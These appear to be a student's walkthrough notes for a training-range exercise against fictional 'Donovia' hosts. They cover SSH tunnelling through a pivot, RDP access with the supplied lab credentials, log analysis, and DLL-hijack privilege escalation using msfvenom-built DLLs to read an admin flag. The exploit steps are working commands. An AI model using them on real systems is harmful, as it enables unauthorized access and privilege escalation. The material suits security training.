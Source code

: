 Pivot
Hostname: ftp.site.donovia
IP: 192.168.28.105
OS: Ubuntu 18.04
Creds: comrade :: StudentReconPassword
Last Known SSH Port: 2222
Malware: none
Action: Perform SSH masquerade and redirect to the next target. No survey required, cohabitation with known PSP approved.

T1
Hostname: donovian-windows-private
IP: 192.168.28.5
OS: Windows ver: Unknown
Creds: comrade :: StudentPrivPassword
Last Known Ports: 3389
PSP: unknown
Malware: unknown
Action: Test supplied credentials, if possible gain access to host. Conduct host survey and gain privileged access.


97dGQEcQWgSxAzo

student@lin-ops:~$ ssh -S /tmp/gray gray -O forward -L 1470:192.168.28.105:2222
student@lin-ops:~$ ssh -MS /tmp/orange comrade@0.0.0.0 -p 1470
student@lin-ops:~$ ssh -S /tmp/orange orange -O forward -L 4175:192.168.28.5:3389
student@lin-ops:~$ xfreerdp /u:comrade /v:0.0.0.0:4175 -dynamic-resolution +glyph-cache +clipboard /size:1080x1080

What service is causing a error level log for 31 May between 1200-1330 hrs. System log file is located under comrade's directory.
look in event viewer and filter on error and click on different ones
Using the same "system.evtx" log, what was the date the offending service was first created? Provide answer in the following format: YYYY-MM-DD
look at other logs with same event id
Using the same "system.evtx" log, The system time has changed, what is the new year?
clear filter and look at hop between years
What type of escalation can you perform with your findings?
because it is not able to rename but can write to directory = dll hijacking
What is the name of the DLL that is supposed to be loaded, by the vulnerable service?
look inside the .txt that is in the directory
Correct code in order to escalate your privileges. What you seek is waiting on the Admins Desktop.
on linops run
`msfvenom -p windows/exec CMD='cmd.exe /c "dir C:\Users\Admin\Desktop" > C:\Users\comrade.WIN2-INTERNAL-D\Desktop\blueballz.txt' -f dll > hijackmeplz.dll`
on windows machine run scp command: 
cd into desktop
`scp student@10.50.31.3:hijackmeplz.dll .`
now move the dll into the directory and restart device
open the blueballs.txt you made to see the listing 
now:
on lin ops
`msfvenom -p windows/exec CMD='cmd.exe /c "type C:\Users\Admin\Desktop\flag.txt" > C:\Users\comrade.WIN2-INTERNAL-D\Desktop\blueballz2.txt' -f dll > hijackmeplz.dll`
on windows
`scp student@10.50.31.3:hijackmeplz.dll .`
rename the frist dll you used and now move the dll into the directory and restart device
you will find the flag in blueballz2.txt
